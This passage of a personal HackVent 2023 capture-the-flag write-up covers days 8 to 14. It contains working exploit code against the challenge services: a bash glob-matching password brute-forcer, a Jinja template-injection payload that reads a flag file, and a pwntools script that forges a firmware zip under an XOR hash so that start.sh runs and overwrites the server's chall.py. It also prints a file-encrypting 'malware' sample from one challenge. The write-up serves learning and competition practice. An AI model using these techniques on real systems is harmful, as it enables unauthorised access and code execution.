if [[ $ADMIN_PASSWORD == $POST_PASSWORD ]]; then
    cat << EOF
    <div class="alert alert-success" role="alert">
        <strong>Successfully logged in, redirecting...</strong>
    </div>
    <script>
        document.cookie = "admin_token=$POST_PASSWORD;path=/";
        setTimeout(function () {
            window.location.href = "/admin";
        }, 2000);
    </script>
EOF
```

in `admin.sh` we can see that once again it checks if the password matches now our cookie value, which is kind of odd.

```sh
# We only have one cookie so first value should be admin password
FIRST_COOKIE=$(cut -d "=" -f 2 <<< "$COOKIES")

# Check if admin password is valid
if [[ "$FIRST_COOKIE" == "$ADMIN_PASSWORD" ]]; then
    cat << EOF
    <main role="main" class="inner cover">
        <h1 class="cover-heading">Admin Panel</h1>
        <p>Your flag is: $FLAG</p>
    </main>
EOF
```

if you have played around with bash before you know that if you want to do string comparisons of variables you really want to wrap them in quotes.

and you might have noticed the checks are different.
```sh
post_login.sh === if [[ $ADMIN_PASSWORD == $POST_PASSWORD ]]; then
admin.sh      === if [[ "$FIRST_COOKIE" == "$ADMIN_PASSWORD" ]]; then
```

and this is where the issue arises. In fact it’s a pretty common issue people do when coding in bash, check this out [stackoverflow](https://stackoverflow.com/questions/20449543/shell-equality-operators-eq#:~:text=%24%20rht%3D%22A*%22%0A%24%20lft%3D%22AB%22%0A%24%20%5B%20%24lft%20%3D%20%24rht%20%5D%20%26%26%20echo%20yes%0A%24%20%5B%20%24lft%20%3D%3D%20%24rht%20%5D%20%26%26%20echo%20yes%0A%24%20%5B%5B%20%24lft%20%3D%20%24rht%20%5D%5D%20%26%26%20echo%20yes%0Ayes%0A%24%20%5B%5B%20%24lft%20%3D%3D%20%24rht%20%5D%5D%20%26%26%20echo%20yes%0Ayes%0A%24%20%5B%5B%20%24lft%20%3D%3D%20%22%24rht%22%20%5D%5D%20%26%26%20echo%20yes%0A%24)

so now we know we can understand that in `post_login.sh` we can use a `*` to match whatever the value is of $ADMIN_PASSWORD but when we get to the `admin.sh` script we cannot. so, this might feel like a dead end but its pattern matching.
so, as the article mentions `ABC == A* == * == *B*` ... etc.

so, we can use this to brute force the letters of the `$ADMIN_PASSWORD` then use the full `$ADMIN_PASSWORD` against `admin.sh`.
given the challenge was written in bash I thought it would be good to do my solution in bash.

```sh
#!/bin/bash

u="https://ef3c4db4-4bd7-471d-aca0-d4b5a6969a4a.idocker.vuln.land"
p=""
c=({a..z} {A..Z} {0..9})
c="${c[*]}"
i=0
r=0
while :; do
    t="${c:$((i++ % ${#c})):1}"
    echo $t
    if [[ $(curl -s -X POST -d "password=$p$t*" "$u/login") == *admin_token* ]]; then
        p+=$t
        echo "[+] password: $p"
        [[ $(curl -s -X GET -H "Cookie: admin_token=$p" "$u/admin") == *flag* ]] && break
    fi
done
echo "$r" | grep -o 'HV23{[^}]*}'
```

```sh
bread@bread-x64:~$ u=https://f9ae9cd2-0d24-4975-af9c-e959e6278458.idocker.vuln.land;h=HV23;p="";a=admin_token;x="curl -sX";c=salmi;for((i=0;;)){ t=${c:$((i++%${#c})):1};[[ `$x POST -d password=$p$t* $u/login` == *$a* ]]&&{ p+=$t;echo $p;t=`$x GET -H"Cookie: $a=$p" $u/admin|grep -o $h{.*}`;[[ $t == $h* ]]&&echo $t&&break;};}
[+] password: s
[+] password: sa
[+] password: sal
[+] password: sala
[+] password: salam
[+] password: salami
HV23{gl0bb1ng_1n_b45h_1s_fun}
```

it does the job but I did get the solution down do 317 chars

### code golf (312)

```sh
u=https://ef3c4db4-4bd7-471d-aca0-d4b5a6969a4a.idocker.vuln.land;h=HV23;p=;a=admin_token;x="curl -sX";c=`echo {a..z}|tr -d ' '`;for((i=0;;)){ t=${c:$[i++%${#c}]:1};[[ `$x POST -d password=$p$t* $u/login` == *$a* ]]&&{ p+=$t;t=`$x GET -H"Cookie: $a=$p" $u/admin|grep -o $h{.*}`;[[ $t == $h* ]]&&echo $t&&break;};}
```
#### FLAG
	HV23{gl0bb1ng_1n_b45h_1s_fun}


## [HV23.09] Passage encryption {medium, fun, network security}

### Description
Santa looked at the network logs of his machine and noticed that one of the elves browsed a weird website. He managed to get the pcap of it, and it seems as though there is some sensitive information in there?!

### Solution

you get a `PCAP` and its actually pretty clean, nothing extra in it.
so, first thing I did was dump the files and I could see doors and a CSS file.
I then read the last `/?door=9` and got the entire `code` the elf entered.

if you remove everything and just look at the door numbers its
`2239869409783327317220697624099369`

so, in my head thought I had done it.
it’s just a simple encoding.

nothing I tried worked with this string and `dhsl` mentioned `DEC -> Hex -> ASCII == no flag here:)`
and that’s when I twigged.
it’s not what the elf is entering at all its something else in the PCAP.

so, I opened it up again and tried to find changes between the packets and I found the `source port` was changing
I’ve done so many challenges that 72=H 86=V is basically baked into my brain.
so, I extracted them all and I had the flag.

`72 86 50 51 23 76 111 48 107 49 110 103 95 102 111 114 95 112 111 114 116 53 95 110 111 55 95 100 111 48 114 36 125 00``

    HV23{Lo0k1ng_for_port5_no7_do0r$}

## [HV23.10] diy-jinja {medium, web security}

### Description
We've heard you like to create your own forms. With SANTA (Secure and New Template Automation), you can upload your own jinja templates and have the convenience of HTML input fields to have your friends fill them out! Obviously 100% secure and even with anti-tampering protection!

### Solution

source review is always the first step so I opened the zip and looked at `app.py`, skim reading I could see 2 routes `@app.route("/upload", methods=["POST"])` and `@app.route("/form/<template_id>", methods=["GET", "POST"])`

I was most interested in the first option as this code seemed by passable.
```py
# Prevent any injections
jinja_objects = re.findall(r"{{(.*?)}}", open(tmp_path).read())
for obj in jinja_objects:
    if not re.match(r"^[a-z ]+$", obj):
        # An oopsie whoopsie happened
        return Response(
            f"Upload failed for {tmp_path}. Injection detected.", status=400
        )
```
all it appeared to do was find all jinja elements enclosed within double curly braces ({{ ... }}) or all variable expressions, then it would iterate over them checking if they matched ASCII or a space char.

what became apparent to me and quite odd was that I was able to do SSTI `{{ [].__class__.__base__.__subclasses__()[452] }}` on the value of the fields, but I couldn’t use quotes. I didn’t realise why this was the case until after I solved it.

the reason was the input was being stringified in the `index.html` file when it was being posted and the quotes.
```js
const fields = fieldNames.map((fieldName, index) => {
    return {
    name: fieldName.value,
    description: descriptions[index].value,
    };
});
formData.append("fields", JSON.stringify(fields));
```
so, because I didn’t read all the source code available to me, I spent too long looking for a payload I could tweak to work where I could bypass the need for quotes.
I didn’t find anything and became stuck.

I needed to bounce ideas off of someone and thanks to `HaCk0` I got my break through.
```md
## bread 
so, say I have this
{{ [].__class__.__base__.__subclasses__()[452]('id') }} 
how do I pass ‘id'
## HaCk0
with {{ you can't
```
and that’s when it twigged. why bother with trying to bypass the `{{(.*?)}}` and `^[a-z ]+$` if I can use something else that jinja2 might use in its templating language.

and that’s when I found that elements enclosed within curly braces with percentage signs ``` are used for control statements or logic and are called "block statements."
I tried to do this directly with the fields for a while but I ran into the quotes issue again so I decided to look at the challenge a little smarter.
since I can’t use quotes why don’t I pass the input I needed quoted into the block statement and print it to the screen with a variable expression.

so, I created a template with `{{x}}`` and used a field (flag) to pass /app/flag.txt to the open function.

```html
<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <meta http-equiv="X-UA-Compatible" content="IE=edge">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <title>Jinja Template Example</title>
</head>
<body>
{{x}}
</body>
</html>
```

finally, it worked!

#### FLAG
    HV23{us3r_suppl13d_j1nj4_1s_4lw4ys_4_g00d_1d34}


## [HV23.11] Santa's Pie {medium, forensics}

### Description
Santa baked you a pie with hidden ingredients!

7cda2611-87a0-4b68-b549-13376b8c097d

### Solution

I knew this was stego and gonna be a pain but I was hoping I could use this only tool to solve it called [StegOnline](https://stegonline.georgeom.net/upload) later I figured out you can by using the embed data extract tool and extracting the red and blue planes and then doing the xor in something like cyberchef but I’m getting ahead of myself.

after exhausting a few know stego tools including zsteg and some other things the only good hints that I need to work with the `RGB` values came when I noticed `aperi solve` shows random data for red and blue but not for green and `austriangam3r` said the ranges for red are 0-9 and blue 32-127.



so, I whipped up a piece of code I’ve probably written out 1 a year for however long I’ve been doing CTFs.

```
from PIL import Image
...
blah blah
look at pixels
```

I printed out the column and the rows for all the colours and noticed indeed, red column is PI.
since blue was unreadable, I gathered it’s probably red? blue
so, I tried a couple different operators but then XOR and it worked

```py
import argparse
from PIL import Image

def main():
    parser = argparse.ArgumentParser()
    parser.add_argument('image_path', help='Path to the image file')
    args = parser.parse_args()

    image = Image.open(args.image_path)
    width, height = image.size
    image_data = image.getdata()
    
    cblue =  [[image_data[y * width + x][2] for y in range(height)]  for x in range(width)]
    cred =  [[image_data[y * width + x][0] for y in range(height)] for x in range(width)]
    
    rickroll = ""
    for i, blue in enumerate(cblue):
        rickroll += ''.join(chr(i) for i in [b ^ cred[i][j % len(cred)] for j, b in enumerate(blue)])
    print(rickroll)

if __name__ == "__main__":
    main()
```

I was rick rolled. i then didn’t touch the challenge for some time because to me it was not obvious that the flag was hidden in the output but on reflection if you look at blue it’s pretty much a pattern except for one part bottom left. 


`blindhero` gave me a nudge and said look closely at the rick roll, so I did and I ended up solving Hidden2 and in the process realised I had the flag all along.

```sh
bread@bread-x64:/CTFS/HV23/day11$ python3 hardway.py 7cda2611-87a0-4b68-b549-13376b8c097d.png | grep -ioP hv23{.*}
HV23{pi_1s_n0t_r4nd0m}
```
#### FLAG
    HV23{pi_1s_n0t_r4nd0m}


## [HV23.12] unsanta {medium, crypto}

### Description
To train his skills in cybersecurity, Grinch has played this year's SHC qualifiers. He was inspired by the cryptography challenge unm0unt41n (can be found here) and thought he might play a funny prank on Santa. Grinch is a script kiddie and stole the malware idea and almost the whole code. Instead of using the original encryption malware from the challenge though, he improved it a bit so that no one can recover his secret!

Luckily, Santa had a backup of one of the images. Maybe this can help you find the secret and recover all of Santa's lost data...?

Download the attachment and find the flag!

### Solution

the first step for this was to read the code of `maleware.py`

```py
from Crypto.Util.number import bytes_to_long
import random
import os
from pathlib import Path

flag = b"REDACTED"
random.seed(bytes_to_long(flag))

path = Path("memes/")
for p in sorted(path.rglob("*")):
    if os.path.isfile(p):
        with open(p, "rb") as fp:
            c = fp.read()

        s = b""
        for _ in range((len(c) + 3) // 4):
            s += random.getrandbits(32).to_bytes(4, "big")
        cenc = b"".join([bytes([s[i] ^ c[i]]) for i in range(len(c))])

        with open(p, "wb+") as fp:
            fp.write(cenc)
```
the interesting parts to me were 
`random.seed(bytes_to_long(flag))`
and `cenc = b"".join([bytes([s[i] ^ c[i]]) for i in range(len(c))])`

the first part we can see the flag is the seed value and the second part is the files in memes have been encrypted using them.

if we read the description of the challenge, we know it’s already been a challenge but its modified.

so, the first thing I did was find the solution to that challenge [unm0unt41n solution](https://blog.gk.wtf/wp-content/uploads/2023/05/unm0unt41n.pdf)

I ran the solution against the pictures and it worked. now I’ve been rick rolled for the 100th time.
 I didn’t expect this to be the solution but it did help me, because well I knew XOR worked. So now I could XOR to remove the original image bytes and leave only the bytes from `s += random.getrandbits(32).to_bytes(4, "big")` of the encoder.

 ```py
with open('backups/a.jpg', 'rb') as file1, open('memes/a.jpg', 'rb') as file2:
    content1 = file1.read()
    content2 = file2.read()

    if len(content1) != len(content2):
        raise ValueError("Files have different lengths")

    result = bytes([b1 ^ b2 for b1, b2 in zip(content1, content2)])

with open('output_xor.bin', 'wb') as output_file:
    output_file.write(result)
```

from here I spent a long time looking up how to get the seed from a string of outputs and found a lot of references to other CTFs that have stored the flag in the `init` state. but hardly any spoke about getting back to the seed. and if they did it was usually an integer seed that can be brute forced.

gathering that the seed already mentions it starts with HV23{} I thought it’s probably not a brute force of an int, so let’s find something that can get back to the seed.

after trying a few repos/other CTF solutions I came across [RNGeesus](https://github.com/deut-erium/RNGeesus/tree/main) and its [mersenne.py](https://github.com/deut-erium/RNGeesus/blob/main/src/code_mersenne/mersenne.py) solution.

so, I pulled that code and tried a few of the get seed functions finally arriving at `get_seeds_python_fast()`

```py
import mersenne

key = open('output_xor.bin', 'rb').read()
output = [int.from_bytes(key[i:i + 4], "big") for i in range(0, len(key), 4)][:624]

print(b''.join(i.to_bytes(4, 'big') for i in mersenne.BreakerPy().get_seeds_python_fast(output)[::-1]))
```
```sh
time taken: 6.987281322479248
b'\x00HV23{s33d_r3c0very_1s_34sy}'
```
#### FLAG
    HV23{s33d_r3c0very_1s_34sy}

## [HV23.13] Santa's Router {medium, crypto}

### Description
Santa came across a weird service that provides something with signatures of a firmware. He isn't really comfortable with all that crypto stuff; can you help him with this?

Please note that the Hacking-Lab VPN is not necessary to solve the challenge (depends on your exploit).

Start the service, exploit it and get the flag!
### Solution

reading the firmware, we see several imports to existing cryptography functions and one homemade
```py
def hashFile(fileContent:bytes) -> int:
    hash = 0
    for i in range(0, len(fileContent), 8):
        hash ^= sum([fileContent[i+j] << 8*j for j in range(8) if i+j < len(fileContent)])
    return hash
```

however, for whatever reason I decided that I need to avoid the obvious homemade hash and target `pkcs1_15` because in the description it mentioned `signatures`.
a few google searches later [rsa-signed-data-verification-not-working-pycryptodome](https://stackoverflow.com/questions/63655263/rsa-signed-data-verification-not-working-pycryptodome) and I needed to bounce ideas of someone. `last_place` hadn’t solved it yet but was happy to be a soundboard and 
once again just said review what you know.

so, let’s do that.

first off, its a random RSA key no luck there.
```py
KEY = RSA.generate(2048)
```

it really only has 2 functions.
read input from a user display `update`
or 
get the current signature `version`

```py
if command.startswith('help'):
...
    elif command.startswith('version'):
        print(f'''Version 1.3.3.7, Signature: {SIGNATURE.decode()}''')
    elif command.startswith('update'):
        zipFile = input('''Please provide a base64 encoded zip file: > ''')
        signature = input('''Please provide a valide pkcs1_15 signature for the zip file: > ''')
        verifyAndExtractZipFile(zipFile, signature)
...
```
if we look at version we can see if the firmware we with the source matches the current firmware by first printing the signature, then uploading.
```py
with open('firmware.zip', 'rb') as f:
    SIGNATURE = fileSignature(f.read())
```

let’s take a look
```py
import base64

zipname = 'firmware.zip'
oldfile = open(zipname, 'rb').read()
print(base64.b64encode(oldfile))
```

```sh
bread@bread-x64:~$ nc 152.96.15.7 1337
Welcome to Santa's secure router

santa@router:~$ version

Version 1.3.3.7, Signature: BmK5vAZQr1lIyzhVYm5fvgR3D6klWNYwt+vwynvr5BZWCJAHuvtkm9/kl5gbFtn90YgiEzgUi77nIBx7maODomuITKYKc50Nq5JUbdrFm0aKYCDz/5cfmJxOP9fgyLPwJVVMO4hJJc8lET0oHZKdR+qdNXAZQ6UdGimKBagqmeK9p0yiEMcPOyTk6tuknmB/LGEVFszey1H3VCuuavfaOX22A+o2GoYFCbfWJAnwZG4HMGO+MzNS22DOoujwVh8JamABwD7sTemjxCQSvrrrAyMdUZk9V14gL8QWl7QouRrHSyT30hwcXOJANpSsgFkCbblSrx8OE5V4up2HR4XQUg==

santa@router:~$ update
Please provide a base64 encoded zip file:
 > UEsDBAoAAAAAAGOncVd9oXr5HQAAAB0AAAAIAAAAc3RhcnQuc2hlY2hvICJOb3RoaW5nIHRvIHNlZSBoZXJlLi4uIlBLAQIfAAoAAAAAAGOncVd9oXr5HQAAAB0AAAAIACQAAAAAAAAAIAAAAAAAAABzdGFydC5zaAoAIAAAAAAAAQAYAKiwYIWQGdoBqLBghZAZ2gH2AIP5iBnaAVBLBQYAAAAAAQABAFoAAABDAAAAAAA=
Please provide a valide pkcs1_15 signature for the zip file:
 > BmK5vAZQr1lIyzhVYm5fvgR3D6klWNYwt+vwynvr5BZWCJAHuvtkm9/kl5gbFtn90YgiEzgUi77nIBx7maODomuITKYKc50Nq5JUbdrFm0aKYCDz/5cfmJxOP9fgyLPwJVVMO4hJJc8lET0oHZKdR+qdNXAZQ6UdGimKBagqmeK9p0yiEMcPOyTk6tuknmB/LGEVFszey1H3VCuuavfaOX22A+o2GoYFCbfWJAnwZG4HMGO+MzNS22DOoujwVh8JamABwD7sTemjxCQSvrrrAyMdUZk9V14gL8QWl7QouRrHSyT30hwcXOJANpSsgFkCbblSrx8OE5V4up2HR4XQUg==
Update exited with statuscode 0
```

yes, the current firmware is the same as the firmware we have in the sauce, and we didn’t need to know the RSA key to upload. 
so now to properly look at uploading `update` 
it takes 2 inputs
```py
zipFile = input('''Please provide a base64 encoded zip file: > ''')
signature = input('''Please provide a valide pkcs1_15 signature for the zip file: > ''')
```
the `zipeFile` is tested to see if its valid `base64`, if it contains a `start.sh` file, and then the `stat.sh` file is run without any validation.
```py
fileContent = base64.b64decode(fileContentEncoded)
...
files = zipfile.ZipFile(io.BytesIO(fileContent))
startFile = [x for x in files.filelist if 'start.sh' in x.filename]
...
filePath = files.extract(startFile[0], path='./www/root/')
p = subprocess.Popen(['/bin/sh', filePath], stdout=subprocess.PIPE, stderr=subprocess.PIPE)
```

so, we can run arbitrary code if we pas the signature validation
```py
try:
    if not verifySignature(fileContent, signature):
        print("Signature is invalid")
        return
except binascii.Error:
    print('Invalid Base64 signature')
    return
```

the signature is decoded, a custom hash of the file is made. then that custom hash is sha1 hashed (odd???)
then it’s verified with the pkcs1_15.new(KEY).verify().

```py
def verifySignature(fileContent:bytes, signatureEncoded:str) -> bool:
    signature = base64.b64decode(signatureEncoded)
    hash = hashFile(fileContent)
    try:
        pkcs1_15.new(KEY).verify(SHA1.new(hex(hash).encode()), signature)
        return True
    except ValueError:
        return False
```

a couple questions arise here.
why double hash? 
and if I was able to upload the same firmware because I already have a valid signature, does that mean if I can make any hash from the `hashFile()` function match the hash from the existing firmware?

well thankfully they did double hash and reduce the inputs into the sha1 hash significantly.
because the hashFile is returning an int of the bytes of the zipfile `XOR`'d against itself.
```py
def hashFile(fileContent:bytes) -> int:
    hash = 0
    for i in range(0, len(fileContent), 8):
        hash ^= sum([fileContent[i+j] << 8*j for j in range(8) if i+j < len(fileContent)])
    return hash
```

So rather than trying to make a Collison with SHA1, we just need to find the int value that satisfies the following:
```
A XOR B XOR C
where 
A == current firmware hash
B == modified firmware with payload
C == A XOR B   
```

Now I tried to do this by hand, by taking apart the function but I was tired and figuring out what it does told me enough to move on:
- split the zip file into 8-byte chunks
- left-shifting each byte in the chunk by multiples of 8 increasing the shift depending on index
- getting the sum of all these values
- `XOR`’d against previous chunk
- return final XOR

so, I used Z3-solver because I knew it would be able to do it for me.
so, I wrote a little a SMT with some constrains 
- `2**(8 * 0)` is just the left shift for that index
- `(var >= 0) & (var <= 255)` keeps the var as a standard byte
- `... + (h * 2**(8 * 7)) == target` final check
```py
def solve_xor(target):
    a, b, c, d, e, f, g, h = [Int(chr(i)) for i in range(97, 105)]
    s = Solver()
    s.add(*[(var >= 0) & (var <= 255) for var in [a, b, c, d, e, f, g, h]])
    s.add((a * 2**(8 * 0)) + (b * 2**(8 * 1)) + (c * 2**(8 * 2)) + (d * 2**(8 * 3)) + (e * 2**(8 * 4)) +
          (f * 2**(8 * 5)) + (g * 2**(8 * 6)) + (h * 2**(8 * 7)) == target)

    if s.check() == sat:
        model = s.model()
        found = [model[var].as_long() for var in [a, b, c, d, e, f, g, h]]
        return found
    return []
```
cool so I had a payload in mind before I got to this point which was 
`echo \"print(open('/app/flag').read())\" > /app/chall.py`
because the description of the challenge challenged me not to use a reverse shell.
I came to this payload because I read the docker file and noticed `ENTRYPOINT socat tcp-l:1337,reuseaddr,fork EXEC:"python3 chall.py"`
which will fork a new `"python3 chall.py"` every time a client connects.
so, I don’t need to VPN if I replace the underlying challenge =P

so, I ran my script to see if it would build me matching zip with exploit and bam.

```py
[+] Old hash: 2222991296195092273
[+] Middle hash: 2952578952127512403
[+] Required XOR: 3900130641238597730
[+] Success!
[+] New hash: 2222991296195092273
[+] b64 zip payload: b'UEsDBBQAAAAAABmCjleWQSk/PgAAAD4AAAAIAAAAc3RhcnQuc2hlY2hvICJwcmludChvcGVuKCcvYXBwL2ZsYWcnKS5yZWFkKCkpIiA+IC9hcHAvY2hhbGwucHkgIyBicmVhZFBLAQIUABQAAAAAABmCjleWQSk/PgAAAD4AAAAIAAAAAAAAAAAAAAC2gQAAAABzdGFydC5zaFBLBQYAAAAAAQABADYAAABkAAAAAABioKSIJwwgNg=='
[+] Update Firmware
...
just pwntools output
...
[+] Collect flag
b'HV23{wait_x0r_is_not_a_secure_hash_function}'
```

final script.
```py
import base64
import zipfile
from z3 import *
from pwn import *

def hash_file(fileContent:bytes) -> int:
    hash = 0
    for i in range(0, len(fileContent), 8):
        hash ^= sum([fileContent[i+j] << 8*j for j in range(8) if i+j < len(fileContent)])
    return hash
def solve_xor(target):
    a, b, c, d, e, f, g, h = [Int(chr(i)) for i in range(97, 105)]
    s = Solver()
    s.add(*[(var >= 0) & (var <= 255) for var in [a, b, c, d, e, f, g, h]])
    s.add((a * 2**(8 * 0)) + (b * 2**(8 * 1)) + (c * 2**(8 * 2)) + (d * 2**(8 * 3)) + (e * 2**(8 * 4)) +
          (f * 2**(8 * 5)) + (g * 2**(8 * 6)) + (h * 2**(8 * 7)) == target)

    if s.check() == sat:
        model = s.model()
        found = [model[var].as_long() for var in [a, b, c, d, e, f, g, h]]
        return found
    return []

def main():
    ip = '152.96.15.7'
    port = 1337
    payload = "echo \"print(open('/app/flag').read())\" > /app/chall.py # bread"
    payloadname = 'start.sh'
    zipname = 'firmware.zip'

    # Hash current
    oldfile = open(zipname, 'rb').read()
    old = hash_file(oldfile)
    print(f"[+] Old hash: {old}")

    # Create zip with exploit (padding)
    open(payloadname, 'w').write(payload)
    zipfile.ZipFile(f"new-{zipname}", 'w').write(payloadname, arcname=payloadname)
    middle = hash_file(open(f"new-{zipname}", 'rb').read())
    print(f"[+] Middle hash: {middle}")

    # Search for XOR solution
    print(f"[+] Required XOR: {old^middle}")
    found = solve_xor(old ^ middle)
    if found:
        print(f"[+] Success!")
        open(f"new-{zipname}", 'ab').write(b''.join(i.to_bytes() for i in found))
        new = open(f"new-{zipname}", 'rb').read()
        newhash = hash_file(new)
        print(f"[+] New hash: {newhash}")
        if newhash == old:
            b64_new = base64.b64encode(new)
            print(f"[+] b64 zip payload: {b64_new}")
            print(f"[+] Update Firmware")
            r = remote(ip, port)
            r.sendlineafter(b"$", b"version")
            r.recvuntil(b"Signature: ")
            pkcs15 = r.recvuntil(b"\n\n")
            r.sendlineafter(b"$", b"update")
            r.sendlineafter(b">", b64_new)
            r.sendlineafter(b">", pkcs15)
            r.recv()
            r.close()
            print(f"[+] Collect flag")
            r = remote(ip, port)
            print(f"{r.recvall()}")
    else:
        print("something went wrong")

if __name__ == "__main__":
    main()
```
#### FLAG
    HV23{wait_x0r_is_not_a_secure_hash_function}

## [HV23.14] Crypto Dump {medium, crypto, forensics, re}

### Description
To keep today's flag save, Santa encrypted it, but now the elf cannot figure out how to decrypt it. The tool just crashes all the time. Can you still recover the flag?

### Solution

For this challenge you are given a core dump and the version of the flag tool.
first thing I needed to do was understand the program, so I put it in ghidra.
so, I got the pseudo–C and renamed variables where it made sense.
```c++
undefined8 main(undefined8 param_1,long flag){
  undefined8 uVar1;
  FILE *keyFile;
  __off64_t key_file_size;
  FILE *flagFile;
  size_t flag_size;
  void *m_size;
  undefined8 keysize;
  undefined8 *__ptr;
  undefined8 *__ptr_00;
  size_t total_size;
  long in_FS_OFFSET;
  undefined key [40];
  long cookie;
  
  cookie = *(long *)(in_FS_OFFSET + 0x28);
  keyFile = fopen64("./key","r");
  fseek(keyFile,0,2);
  key_file_size = ftell(keyFile);
  if (key_file_size == 32) {
    rewind(keyFile);
    fread_unlocked(key,1,32,keyFile);
    fclose(keyFile);
    flagFile = fopen64(*(char **)(flag + 8),"r");
    fseek(flagFile,0,2);
    flag_size = ftell(flagFile);
    rewind(flagFile);
    m_size = (void *)malloc(flag_size);
    keyFile = flagFile;
    fread_unlocked(m_size,1,flag_size,flagFile);
    fclose(flagFile);
    keysize = malloc(240);
    nettle_aes256_set_encrypt_key(keysize,key);
    if (**(char **)(flag + 16) == 'd') {
      total_size = flag_size - 16;
      __ptr = (undefined8 *)malloc(total_size);
      nettle_ctr_crypt(keysize,nettle_aes256_encrypt,16,m_size,total_size,__ptr,(long)m_size + 16,
                       keyFile);
    }
    else {
      if (**(char **)(flag + 16) != 'e') {
        keysize = 0xfffffffe;
        goto LAB_00401205;
      }
      total_size = flag_size + 16;
      __ptr = (undefined8 *)malloc(total_size);
      __ptr_00 = (undefined8 *)malloc(16);
      keyFile = fopen64("/dev/random","r");
      fread_unlocked(__ptr_00,1,16,keyFile);
      fclose(keyFile);
      uVar1 = __ptr_00[1];
      *__ptr = *__ptr_00;
      __ptr[1] = uVar1;
      nettle_ctr_crypt(keysize,nettle_aes256_encrypt,16,__ptr_00,flag_size,__ptr + 2,m_size);
      free(__ptr_00);
    }
    keyFile = fopen64("./out","w");
    fwrite(__ptr,1,total_size,keyFile);
    fclose(keyFile);
    keysize = 0;
  }
  else {
    keysize = 0xffffffff;
  }
LAB_00401205:
  if (cookie == *(long *)(in_FS_OFFSET + 0x28)) {
    return keysize;
  }
                    /* WARNING: Subroutine does not return */
  __stack_chk_fail();
}
```
here is the basics of the program as I understand it:
- encryption/decryption using `AES256` in `CTR` (Counter) mode
- key is 32-byte file called `key`
- key is randomly generated if you call the encryption function
- takes 2 arguments `/flagsave <file> <mode>`, where `<mode>` is `e` (encrypt) or `d` (decrypt)

nothing to special, doesn’t seem to have anything hidden.
so, it’s time to work with the core dump.

```sh
bread@bread-x64:/CTFS/HV23/day14/crypto-dump$ gdb -q flagsave dump
Reading symbols from flagsave...
(No debugging symbols found in flagsave)

warning: Can't open file /nix/store/nnzp88khq8ygjjqdad8mjk3jkm94044p-flagsave-x86_64-unknown-linux-musl/bin/flagsave during file-backed mapping note processing

warning: exec file is newer than core file.
[New LWP 828]

This GDB supports auto-downloading debuginfo from the following URLs:
  <https://debuginfod.ubuntu.com>
Debuginfod has been disabled.
To make this setting permanent, add 'set debuginfod enabled off' to .gdbinit.
Core was generated by `flagsave ./flag.enc'.
Program terminated with signal SIGSEGV, Segmentation fault.
#0  0x000000000040113a in main ()
```
first thing we notice is the dump was created by `flagsave ./flag.enc` and its crashing at `0x000000000040113a in main ()`, looking in ghidra that is
`if (**(char **)(flag + 16) == 'd') {`, just after the`nettle_aes256_set_encrypt_key(keysize,key);` is set.

let’s get the frame values during this crash

```sh
gdb-peda$ i f
Stack level 0, frame at 0x7ffeef3dd6e0:
 rip = 0x40113a in main; saved rip = 0x4070c1
 called by frame at 0x7ffeef3dd710
 Arglist at 0x7ffeef3dd658, args: 
 Locals at 0x7ffeef3dd658, Previous frame's sp is 0x7ffeef3dd6e0
 Saved registers:
  rbx at 0x7ffeef3dd6a8, rbp at 0x7ffeef3dd6b0, r12 at 0x7ffeef3dd6b8, r13 at 0x7ffeef3dd6c0, r14 at 0x7ffeef3dd6c8, r15 at 0x7ffeef3dd6d0, rip at 0x7ffeef3dd6d8
```

and lets also check out the content of those registers

```sh
gdb-peda$ hexdump $r12 /3 
Warning: cannot retrieve memory content
gdb-peda$ hexdump $r13 /3 
0x00007fc80c16f040 : af 71 38 ad 96 08 c9 14 be bd fe 19 be 9f 28 25   .q8...........(%
0x00007fc80c16f050 : bd 98 a7 0f fd 3a 45 58 18 8f 8d 8e f8 bb 15 66   .....:EX.......f
0x00007fc80c16f060 : 73 5f 0b 61 81 35 be b5 0d 80 c9 00 00 00 00 00   s_.a.5..........
gdb-peda$ hexdump $r14 /3 
0x0040c0fb : 72 00 2c 61 65 73 6e 69 00 66 61 74 2d 78 38 36   r.,aesni.fat-x86
0x0040c10b : 5f 36 34 2e 63 00 00 00 00 00 00 00 00 6c 69 62   _64.c........lib
0x0040c11b : 6e 65 74 74 6c 65 3a 20 66 61 74 20 6c 69 62 72   nettle: fat libr
gdb-peda$ hexdump $r15 /3 
0x00007ffeef3dd670 : 9b af 7d 5c ac 41 41 c8 cb 8c fa 3f d2 70 fc 4b   ..}\.AA....?.p.K
0x00007ffeef3dd680 : ee a0 cd 54 0a 54 25 0a d8 8f 8f 94 cb 40 0f 91   ...T.T%......@..
0x00007ffeef3dd690 : 00 00 00 00 00 00 00 00 e1 00 64 f1 22 b9 94 ea   ..........d."...
gdb-peda$ hexdump $rip /3 
0x0040113a : 0f b6 00 3c 64 0f 84 df 00 00 00 3c 65 0f 85 17   ...<d......<e...
0x0040114a : 01 00 00 4c 8d 7b 10 4c 89 ff e8 b7 63 00 00 bf   ...L.{.L....c...
0x0040115a : 10 00 00 00 48 89 c5 e8 aa 63 00 00 4c 89 f6 48   ....H....c..L..H
gdb-peda$ hexdump $rsp /3 
0x00007ffeef3dd660 : 00 00 00 00 00 00 00 00 50 f4 16 0c c8 7f 00 00   ........P.......
0x00007ffeef3dd670 : 9b af 7d 5c ac 41 41 c8 cb 8c fa 3f d2 70 fc 4b   ..}\.AA....?.p.K
0x00007ffeef3dd680 : ee a0 cd 54 0a 54 25 0a d8 8f 8f 94 cb 40 0f 91   ...T.T%......@..
```
ok and let’s see if we can guess which register matches.

I’m not really familiar with this from a core dump so I thought I should try and match it against the what ghidra has I can see registers `R12`, `R13`, `R15` and `RSP` but how they are used being used, or what I thought from this output didn’t match my understanding. 
```js
004010fe 4c 89 e1        MOV        RCX,R12
00401101 48 89 da        MOV        RDX,RBX
...
0040110c 49 89 c5        MOV        R13,m_size
...
00401114 4c 89 e7        MOV        param_1,R12
...
00401126 4c 89 fe        MOV        flag,R15
00401129 48 89 c7        MOV        param_1,keysize
0040112c 48 89 44        MOV        qword ptr [RSP + local_70],keysize
...
00401136 48 8b 45 10     MOV        keysize,qword ptr [RBP + 16]
```
so, I came up with an idea and thought, why not just make a couple dummy files.
then crash it like the elves have and see what’s in the registers.
```sh
bread@bread-x64:/CTFs/HV23/day14/crypto-dump$ echo -n "4141414141414141414141414141414141414141414141414141414141414243" | xxd -r -p > key; 
